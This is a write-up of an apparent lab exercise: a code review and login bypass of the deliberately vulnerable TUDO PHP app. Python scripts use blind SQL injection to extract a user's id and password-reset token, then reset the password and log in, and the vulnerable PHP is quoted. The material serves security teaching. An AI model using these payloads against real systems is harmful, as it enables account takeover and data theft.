






# Login Bypass in TUDO

Writeup of the security code review and analysis of the login bypass vulnerability in TUDO app.

## Setup

Start the vulnerable app usind Docker.

```sh
docker compose up -d
```

Open the app on http://localhost:8000.






## Static Analysis

First, run security static code analysis using [progpilot](https://github.com/designsecurity/progpilot).

For simplicity, use a new docker container with php cli.

```sh
docker run --rm -it -v "$(pwd)":/app -w /app php:8.2-cli bash
```

Inside the container, install [composer](https://getcomposer.org/) and use it to install `progpilot`.

```sh
apt-get update && apt-get install -y git unzip zip
curl -sS https://getcomposer.org/installer | php
php composer.phar require --dev designsecurity/progpilot
```

Progpilot needs a yaml configuration:

```yaml
sources:
  - type: "input"
    regex: "_GET|_POST|_REQUEST|_COOKIE|_SESSION"
sinks:
  - type: "exec"
    regex: "eval|system|exec|shell_exec|passthru|popen|proc_open"
  - type: "sql"
    regex: "query|mysql_query|mysqli_query|pg_query|prepare|execute"
  - type: "include"
    regex: "include|require|include_once|require_once"
```

Run the static analysis on the app:

```sh
vendor/bin/progpilot --configuration progpilot.yml app/
```

We see the following output:

```json
[
  {
    "source_name": ["$username"],
    "source_line": [9],
    "source_column": [219],
    "source_file": ["\/app\/app\/forgotusername.php"],
    "sink_name": "pg_query",
    "sink_line": 12,
    "sink_column": 311,
    "sink_file": "\/app\/app\/forgotusername.php",
    "vuln_name": "sql_injection",
    "vuln_cwe": "CWE_89",
    "vuln_id": "2b23136e94bac002cf0463d4d4cc542ebff3606cd8ec7b0ec0380f5b292924d9",
    "vuln_type": "taint-style"
  },
  {
    "source_name": ["$\_GET[\"token\"]"],
    "source_line": [77],
    "source_column": [2766],
    "source_file": ["\/app\/app\/resetpassword.php"],
    "sink_name": "echo",
    "sink_line": 77,
    "sink_column": 2766,
    "sink_file": "\/app\/app\/resetpassword.php",
    "vuln_name": "xss",
    "vuln_cwe": "CWE_79",
    "vuln_id": "d0adfe74035dd960628ccbe2a1f858038b5203291ce0ac943e61ce9ade57042b",
    "vuln_type": "taint-style"
  }
]
```

## Vulenerability

Explore the code in `forgot_username.php`.

As you can see the query is vulnerable to SQL injection. It does not use prepared statements and directly concatenates the user input into the query string.

```php
<?php
    session_start();
    if (isset($_SESSION['loggedin']) && $_SESSION['loggedin'] == true) {
        header('location: /index.php');
        die();
    }

    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $username = $_POST['username'];

        include('includes/db_connect.php');
        $ret = pg_query($db, "select * from users where username='".$username."';");

        if (pg_num_rows($ret) === 1) {
            $success = true;
        } else {
            $error = true;
        }
    }
?>
```

The query we used to test this statement is:

```sql
' OR '1'='1' LIMIT 1 --
```



The problem with this query is that it always returns boolean value and does not allow us to extract any valuble information from the database. But we can use this vulnerability to perform a blind SQL injection attack and to find other valuable information about the user, such as the email address, uid, token.

# Approach:

1. We know there are accounts with username `user1` and `user2`.
2. We send request for password reset for `user1` and we wait to see the response.



3. After the request is sent to an email we know that the token is generated and stored in the database table named `tokens`.

```php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $username = $_POST['username'];

        if ($username != 'admin') {
            include('includes/db_connect.php');
            $ret = pg_prepare($db, "checkuser_query", "select * from users where username = $1");
            $ret = pg_execute($db, "checkuser_query", array($_POST['username']));

            if (pg_num_rows($ret) === 1) {
                $row = pg_fetch_row($ret)[0];

                include('includes/utils.php');
                $token = generateToken();

                $ret = pg_prepare($db, "createtoken_query", "insert into tokens (uid, token) values ($1, $2)");
                $ret = pg_execute($db, "createtoken_query", array($row, $token));

                $success = true;
            }
            else {
                $error = true;
            }
        }
    }
```

4. We then use sql injection to extract the user id. From `sql` files in the project we found that the user id is named `uid` and the table looks like this:

```sql
CREATE TABLE users (
	uid SERIAL PRIMARY KEY NOT NULL,
	username TEXT NOT NULL,
	password TEXT NOT NULL,
	description TEXT
);

CREATE TABLE tokens (
	tid SERIAL PRIMARY KEY NOT NULL,
	uid INT NOT NULL,
	token TEXT NOT NULL,
	FOREIGN KEY (uid) REFERENCES users (uid)
);
```

5. We generate the script to extract user id. When user id is found we return it and proceed further to extract the token.

```python
def check_query(query: str) -> bool:
    payload = {"username": query}
    response = requests.post(URL + "/forgotusername.php", data=payload)
    # print(str(response.content))
    return "User exists!" in str(response.content)


# find user1 id (found that user id is serial in sql files)
def find_user_id():
    id = 1
    while True:
        if check_query(f"{USERNAME}' AND uid='{id}'-- "):
            return id
        id += 1
```

6. We also noticed that util method for generating token is simple and predictable. That means we can brute force it and find the token for the user.

```php
function generateToken() {
        srand(round(microtime(true) * 1000));
        $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_';
        $ret = '';
        for ($i = 0; $i < 32; $i++) {
            $ret .= $chars[rand(0,strlen($chars)-1)];
        }
        return $ret;
    }

```

Python script to brute force the token:

```python
def find_token_with_uid(id: int):
    token = ""
    chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_"
    i = 1
    while len(token) < 32:
        for char in chars:
            if check_query(
                f"{USERNAME}' AND SUBSTRING((SELECT token FROM tokens WHERE uid={id} LIMIT 1), {i}, 1) = '{char}'-- "
            ):
                print(f"Token has value of {char} at index={i}")
                token += char
                i += 1
    return token
```

We gradually find each character of the token and after some time we have the full token for the user.

7. After we have the token we can reset the password for the user and log in as that user.

```python
def send_reset_password(token) -> bool:
    payload = {"token": token, "password1": NEW_PASSWORD, "password2": NEW_PASSWORD}

    response = requests.post(URL + "/resetpassword.php", data=payload)
    # print(response.content)
    return "Token is invalid." not in str(response.content)

```

8. Finally, we can log in as the user and access the admin panel.

```python
# login
def login():
    payload = {"username": USERNAME, "password": NEW_PASSWORD}

    response = requests.post(URL + "/login.php", data=payload)
    # print(response.content)
    return "Login Failed" not in str(response.content)

```
